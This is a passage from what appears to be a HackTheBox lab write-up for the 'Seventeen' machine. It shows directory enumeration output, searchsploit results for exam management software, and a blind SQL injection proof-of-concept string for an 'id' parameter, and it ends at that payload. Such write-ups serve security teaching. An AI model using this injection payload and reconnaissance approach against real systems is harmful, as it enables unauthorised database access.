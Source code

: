 ```
301      GET        9l       28w      321c http://exam.seventeen.htb/admin/dist/js => http://exam.seventeen.htb/admin/dist/js/
301      GET        9l       28w      322c http://exam.seventeen.htb/admin/dist/css => http://exam.seventeen.htb/admin/dist/css/
301      GET        9l       28w      322c http://exam.seventeen.htb/admin/dist/img => http://exam.seventeen.htb/admin/dist/img/
301      GET        9l       28w      320c http://exam.seventeen.htb/build/config => http://exam.seventeen.htb/build/config/
301      GET        9l       28w      327c http://exam.seventeen.htb/admin/dist/js/pages => http://exam.seventeen.htb/admin/dist/js/pages/
301      GET        9l       28w      322c http://exam.seventeen.htb/plugins/popper => http://exam.seventeen.htb/plugins/popper/
...[snip]...

```

## Shell as www-data [docker]

### SQL Injection

#### Identify Vulnerability

`searchsploit` shows four vulnerabilities across two software that might fit this application:

```

oxdf@hacky$ searchsploit exam management system
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Exam Hall Management System 1.0 - Unrestricted F | php/webapps/50103.php
Exam Hall Management System 1.0 - Unrestricted F | php/webapps/50111.py
Exam Reviewer Management System 1.0 - Remote Cod | php/webapps/50726.txt
Exam Reviewer Management System 1.0 - ‘id’ S | php/webapps/50725.txt
------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

When looking at these to see if either matches Seventeen, I’ll compare the URL structure to the URLs from `feroxbuster` above. The first two point to `/pages/save_user.php`. I couldn’t find any page like that on the server. The second two target `/erms/classes/Users.php` and `/erms/?p=take_exam&id=1`. Those look like URLs I’ve already seen (without the `/erms`).

50726 is a authenticated RCE. As I don’t have creds, I’ll forucs on the next one.

50725 is a boolean-based blind SQL injection.

#### SQL Injection

The POC is:

```

p=take_exam&id=1' AND 4755=4755 AND 'VHNu'='VHNu

```
